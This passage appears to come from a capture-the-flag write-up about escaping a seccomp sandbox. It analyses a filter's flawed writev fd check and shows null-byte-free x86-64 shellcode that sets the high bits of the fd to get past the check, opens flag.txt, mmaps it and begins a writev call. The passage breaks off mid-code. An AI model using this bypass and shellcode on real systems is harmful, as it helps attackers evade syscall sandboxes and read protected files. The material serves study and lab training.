 Going forward let's just assume that `writev` is indeed the issue and reconsider the seccomp filter:

```bash
 0017: 0x15 0x00 0x05 0x00000014  if (A != writev) goto 0023
 0018: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # writev(fd, vec, vlen)
 0019: 0x25 0x03 0x00 0x00000000  if (A > 0x0) goto 0023
 0020: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0024
 0021: 0x20 0x00 0x00 0x00000010  A = fd # writev(fd, vec, vlen)
 0022: 0x25 0x00 0x01 0x000003e8  if (A <= 0x3e8) goto 0024
 0023: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0024: 0x06 0x00 0x00 0x00000000  return KILL
```

In line 18 `fd` argument is shifted by 32 to the right. If the remaining value is greater than 0x0 the syscall will be allowed. So the shellcode has to be adapted accordingly:

```asm
xor rdi, rdi  ; STDOUT_FILENO
add rdi, 0x1
shl rdi, 0x20 ; bypass seccomp restrictions
add rdi, 0x1
```

Now the complete assembly including null byte avoidance and bypass for the `writev` filter looks like this:

```asm
global _start

section .text
_start:
    ; syscall openat
    xor rdx, rdx                ; null bytes to terminate string
    mov rsi, 0x7478742e67616c66 ; flag.txt
    push rdx                    ; store null bytes on stack
    push rsi                    ; store flag.txt on stack
    mov rdi, 0xffffffffffffff9c ; AT_FDCWD (-100)
    lea rsi, [rsp]              ; flag.txt
    xor rdx, rdx                ; O_RDONLY (0)
    xor rax, rax                ; SYS_openat
    add rax, 0x1
    shl rax, 0x8
    add rax, 0x1
    syscall
    mov r8, rax                 ; store resulting fd in r8 
                                ; r8 will be arg5 in mmap
    
    ; syscall mmap
    xor rax, rax ; SYS_mmap (avoiding null bytes)
    add rax, 0x1
    shl rax, 0x3
    add rax, 0x1
    xor rdi, rdi ; null
    xor rsi, rsi ; length 0x80
    add rsi, 0x1
    shl rsi, 0x7
    xor rdx, rdx ; PROT_READ
    add rdx, 0x1
    xor r10, r10 ; MAP_PRIVATE
    add r10, 0x2
    xor r9, r9   ; flags
    syscall

    ; syscall writev
    xor r10, r10  ; size: 128
    add r10, 0x1
```